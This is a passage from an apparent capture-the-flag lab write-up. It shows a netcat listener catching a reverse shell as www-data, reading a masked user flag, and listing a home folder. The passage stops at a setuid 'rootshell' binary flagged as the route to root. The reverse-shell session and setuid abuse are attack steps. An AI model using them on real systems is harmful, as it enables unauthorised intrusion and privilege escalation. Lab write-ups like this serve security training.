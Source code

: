 
#### catch connect from target
```bash
nc -lvp 445
listening on [any] 445 ...
192.168.124.14: inverse host lookup failed: Unknown host
connect to [192.168.49.124] from (UNKNOWN) [192.168.124.14] 52638
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

## get first flag
```bash
nc -lvp 445
listening on [any] 445 ...
192.168.124.14: inverse host lookup failed: Unknown host
connect to [192.168.49.124] from (UNKNOWN) [192.168.124.14] 52638
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/tom
$ cat local.txt
e******************************3
```
---

# post exploitation
## get root
### /home/tom folder content
```bash
$ ls -lsah
total 104K
4.0K drwxr-xr-x 15 tom  tom  4.0K Jan 10 01:24 .
4.0K drwxr-xr-x  3 root root 4.0K Feb  8  2020 ..
4.0K -rw-------  1 tom  tom   684 Feb  8  2020 .ICEauthority
   0 -rw-r--r--  1 root root    0 Jul 16  2020 .bash_history
4.0K -rw-r--r--  1 tom  tom   220 Feb  8  2020 .bash_logout
4.0K -rw-r--r--  1 tom  tom  3.5K Feb  8  2020 .bashrc
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .cache
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .config
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .gnupg
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .local
4.0K -rw-r--r--  1 tom  tom   807 Feb  8  2020 .profile
4.0K drwx------  2 tom  tom  4.0K Feb  8  2020 .ssh
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Desktop
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Documents
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Downloads
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Music
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Pictures
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Public
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Templates
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Videos
4.0K -rw-r--r--  1 root root   33 Jan 10 01:24 local.txt
 20K -rwsr-xr-x  1 root root  17K Feb  8  2020 rootshell
4.0K -rw-r--r--  1 tom  tom   448 Feb  8  2020 rootshell.c
```
`rootshell` has flag set that it gets executed as the owner of the file!
